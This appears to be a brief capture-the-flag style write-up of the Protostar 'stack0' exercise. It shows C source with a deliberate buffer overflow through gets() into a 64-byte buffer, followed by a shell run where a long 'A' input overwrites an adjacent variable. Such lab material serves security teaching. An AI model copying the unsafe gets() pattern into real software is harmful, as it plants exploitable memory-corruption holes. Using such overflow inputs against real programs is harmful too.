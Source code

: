 source code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

This is an easy one, just given a long input to overflow the value of `modified`.

```shell
user@protostar:~$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
Segmentation fault
```